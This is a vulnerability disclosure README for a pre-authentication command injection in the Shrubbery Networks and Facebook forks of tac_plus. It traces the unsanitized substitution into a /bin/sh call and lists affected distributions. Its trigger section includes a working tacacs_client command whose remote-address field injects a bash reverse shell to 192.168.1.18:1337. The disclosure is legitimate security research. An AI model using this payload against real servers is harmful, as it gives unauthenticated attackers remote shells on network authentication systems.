


# tac_plus Pre-Auth Remote Command Execution Vulnerability

This repository contains information about a pre-auth remote command execution vulnerability in different open-source implementations of `tac_plus`. The following two forks are affected:

- [Shrubbery Networks tac_plus](https://shrubbery.net/tac_plus/)
- [Facebook tac_plus](https://github.com/facebook/tac_plus)

However, both forks are based on a Cisco dev kit for TACACS+ that was open-sources over *16 years* ago. The vulnerability already existed in the dev kit and was forked into both projects. It should be noted that this research only focused on the two forks mentioned above, there might be additional forks that are affected as well.

The following graph shows the relation between the forks, all are affected:

```bash
-----------------
| Cisco dev kit |
-----------------
       ↑
  forked from
       |
----------------------
| Shrubbery Networks |
|   CVE-2023-48643   |
----------------------
       ↑
  forked from
       |
------------------
|    Facebook    |
| CVE-2023-45239 |
------------------

```

No official source for Cisco's dev kit has been found and it is not maintained anymore.

## Status

- Facebook published a [GitHub Security Advisory (GHSA)](https://github.com/facebook/tac_plus/security/advisories/GHSA-p334-5r3g-4vx3), assigned [CVE-2023-45239](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45239)
- No patch for Shrubbery Networks' fork is available


## Vulnerability

The following example references code in the [facebook/tac_plus](https://github.com/facebook/tac_plus) repository because it is available on GitHub (the Cisco dev kit and Shrubbery Networks fork are just tarballs). However, the affected code is **the same in all projects**.

When a packet arrives, the [start_session()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/tac_plus.c#L833) function will be called to determine the type of the incoming packet (authentication, authorization, or accounting). We focus on authorization packets that are handled by [author()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/author.c#L29) → [do_author()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/do_author.c#L52), which then calls [pre_authorization()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/do_author.c#L208). This function checks if the username in the TACACAS+ packet has a *before authorization* command configured and executes it via [call_pre_process()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L436). The following configuration file (`tac_plus.conf`) shows a user with a *before authorization* command configured:

```
accounting file = /tmp/tac_acc.log

user=DEFAULT {
 before authorization "/usr/local/sbin/tac_policy -- '$user' '$name' '$address'"
  service = exec {
    default attribute = permit
  }
}
```

This function takes the command configured in *before authorization* and [substitutes](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L124) variables (e.g. *$user*, *$name*, or *$address*) with values from the incoming TACACAS+ packet. However, this is done without any input validation or sanitization.

The resulting command string will then be passed to [my_popen()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L279) which executes the command string in the following [execl()](https://github.com/facebook/tac_plus/tree/8d17ddc8c7c5c7682504ffdcacdb448c41f2ea03/tacacs-F4.0.4.28/programs.c#L342) call:

```c
(void) execl("/bin/sh", "sh", "-c", cmd, (char *) NULL);
```

This allows injection of additional commands via the remote address field in TACACS+ packets (see *rem_addr*, *rem_addr_len* in [RFC8907](https://datatracker.ietf.org/doc/html/rfc8907#section-6.1)). The same potentially works for other input fields as well.

It should be noted that the vulnerability is triggered during the authentication process. Therefore, no password is required, only a username that exists in the configuration!

### Trigger the Vulnerability

Compiling and running tac_plus with this config is described in the following sections:

- [Shrubbery Network tac_plus setup](Shrubbery.md#Setup)
- [Facebook tac_plus setup](Facebook.md#Setup)

The following command runs the [tacacs_client](https://github.com/ansible/tacacs_plus) on the target daemon with the user DEFAULT. The payload that triggers the vulnerability is in the remote address field, which is set via the `--rem-addr` command line argument:

```bash
export TACACS_PLUS_KEY=[REDACTED] # only required for setups with a pre-shared keys
tacacs_client \
    --host 192.168.1.100 \
    --port 4949 \
    --username DEFAULT \
    --rem-addr "asd';bash -i >& /dev/tcp/192.168.1.18/1337 0>&1 #" \
    authorize -c service=exec
```

Executing this will result in a reverse shell connection to 192.168.1.18:1337. The username has to be one of the users that has a *before authorization* or *after authorization* directive configured in `tac_plus.cfg`. The trailing command list (`-c service=exec`) is required to hit the required code path, but the value does not matter.

The TACACS+ packet sent by the client is shown in the following screenshot in Wireshark:



The following screenshot shows a debug session right before the injected command is executed:



## Affected Linux Distributions/BSD Derivates

Various Linux distributions use one of the two affected forks in their official packages (mostly the Shrubbery Networks fork). The following tables show Linux distributions and BSD derivates that use either the Shrubbery Networks or Facebook fork at the time of this writing. The list is non-exhaustive, other distributions/derivates are most likely affected as well.

| Distribution | Package | Fork |
---------------|---------|------|
| Fedora | tacacs | Facebook |
| Ubuntu | tacacs+ | Shrubbery Networks |
| OpenSUSE | tac_plus | Shrubbery Networks |
| Debian | tacacs+ | Shrubbery Networks |
| Arch Linux (AUR) | tacacs-plus | Shrubbery Networks |
| ... | | |

| Derivate | Port | Fork |
|----------|------|------|
| FreeBSD | tacacs | Shrubbery Networks |
| NetBSD | tacacs | Shrubbery Networks |
| ... | | |

Examples of how to reproduce this issue are available in the following sections:

- [Shrubbery Networks tac_plus examples](Shrubbery.md#Examples)
- [Facebook tac_plus examples](Facebook.md#Examples)
